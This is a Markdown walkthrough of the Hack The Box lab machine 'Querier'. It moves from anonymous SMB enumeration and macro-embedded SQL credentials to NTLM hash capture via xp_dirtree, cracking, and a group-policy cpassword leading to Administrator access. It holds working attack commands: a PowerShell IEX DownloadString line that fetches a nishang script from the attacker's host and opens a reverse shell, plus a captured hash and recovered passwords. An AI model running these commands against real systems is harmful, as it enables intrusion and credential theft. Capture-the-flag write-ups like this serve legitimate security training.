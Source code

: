 # QUERIER
### Info:
OS: Windows<br>
IP: 10.10.10.125<br>
Difficulty :  Medium<br>
### Enumeration:
```
nmap -sC -sV -oA nmap 10.10.10.125<ip>
```
gives us the results : <br>
![alt text](https://i.imgur.com/njANk2u.png)
As we see port 139 Open. Therefore checking the shares via smbclient. <br>
```
root@kali:~/Desktop/boxes/Querier# smbclient -L \\\\10.10.10.125 -N
WARNING: The "syslog" option is deprecated

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Reports         Disk      

```
The share named Reports had a .xlsm file inside.
```
root@kali:~/Desktop/boxes/Querier# smbclient \\\\10.10.10.125\\Reports -N 
WARNING: The "syslog" option is deprecated
Try "help" to get a list of possible commands.
smb: \> 
smb: \> ls
  .                                   D        0  Tue Jan 29 04:53:48 2019
  ..                                  D        0  Tue Jan 29 04:53:48 2019
  Currency Volume Report.xlsm         A    12229  Mon Jan 28 03:51:34 2019

		6469119 blocks of size 4096. 1589920 blocks available
smb: \> get "Currency Volume Report.xlsm"
```
As I was on Kali therefore searching for how to open xlsm files resulted in a cli tool `Olevba`
![alt text](https://i.imgur.com/tYCbn6J.png) <br>
We get the creds for the Microsoft SQL server (port 1433) <br>
```
Username: reporting
Pass: PcwTWTHRwryjc$c6
Database: volume
```
Via impacket (https://github.com/SecureAuthCorp/impacket) we can use mssqlclient to login.
We cannot run `xp_cmdshell`
<br>
### Exploitation:
After googling for a while I found this : <br>
https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478
We can capture MSSQL Creds with `xp_dirtree` and `impacket-smbserver`. <br>xp_dirtree
display a list of every folder, every subfolder, and every file for the path you give it. In this case we
will create a shared document and then we will list it with xp_dirtree so that the connection will
send us the hash.
```
impacket-smbserver -smb2support myshare (local host)
EXEC master.sys.xp_dirtree ‘\\10.10.17.29\myshare’,1, 1 (mssqlclient)
```
This gives us on our local machine: 
```
root@kali:~/Desktop/boxes/Querier# smbserver.py -smb2support myshare /Impacket 
Impacket v0.9.19-dev - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.125,49672)
[*] AUTHENTICATE_MESSAGE (QUERIER\mssql-svc,QUERIER)
[*] User mssql-svc\QUERIER authenticated successfully
[*] mssql-svc::QUERIER:4141414141414141:8dd343e53e5affe0f13851fe469eb48d:010100000000000000acc7f9b2e0d4012e9af9fa98326f050000000001001000720042006e004b0044007600630054000200100069004400640054004d0049007500670003001000720042006e004b0044007600630054000400100069004400640054004d004900750067000700080000acc7f9b2e0d40106000400020000000800300030000000000000000000000000300000536b8f9ae8bc9644e79dfd5e523681893bf75a7d585f5f8056a77662f416ca0c0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310037002e0032003900000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:myshare)
[*] AUTHENTICATE_MESSAGE (\,QUERIER)
[*] User \QUERIER authenticated successfully
[*] :::00::4141414141414141
[*] Disconnecting Share(1:IPC$)
```
I tried breaking the mssql-svc hash via hashcat but it didn't work for me (gave false positives, 
and cracked the pass as `corradosl6`). Therefore by using classic john as :
![alt text](https://i.imgur.com/vQDPcid.png)
We get the creds for user `mssql-svc`, and we can now login and get the user flag! 
<br>
### Privilege Escalation:
We can run a nishang powershell reverse tcp script, on the `mssql-svc` user. <br>
```
xp_cmdshell "powershell -c  IEX(New-Object Net.WebClient).DownloadString(''http://10.10.17.29:8000/nishangpowershell.ps1'');
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.17.29 -Port 1234"
```
Command Explanation : <br>
We used IEX (Invoke Expression - Runs commands or expressions on the local computer.) <br>
We used DownloadString instead of DownloadFile as SQL server blocked access to procedure. <br>
We got the file from our local system by (python -m SimpleHTTPServer (in the foler containing nishang ps1 script))<br>
We used double single quotes becuase single quotes are escaped by doubling them up (https://stackoverflow.com/questions/1586560/how-do-i-escape-a-single-quote-in-sql-server) <br>
And finally we invoked the function Invoke-PowerShellTcp after loading it in the memory. <br>
Firing up `nc -lvnp port` gave us a shell.  <br>
Running PowerUp.ps1 (windows privesc script) we find a group policy vulnerability. <br>
`PS C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups>`
Therefore looking inside we found an xml file.
![alt text](https://i.imgur.com/zXV1PFr.png)
and breaking that cpassword by gp3finder we get:
![alt text](https://i.imgur.com/m0yRBMV.png)
Therefore we can get a shell for Administrator with the password `MyUnclesAreMarioAndLuigi!!1!` via:
```
python psexec.py Administrator@10.10.10.125 (via Impacket)
```
### Gained knowledge:
Impacket <br>
Capturing MSSQL Creds <br>
Powershell Scripting




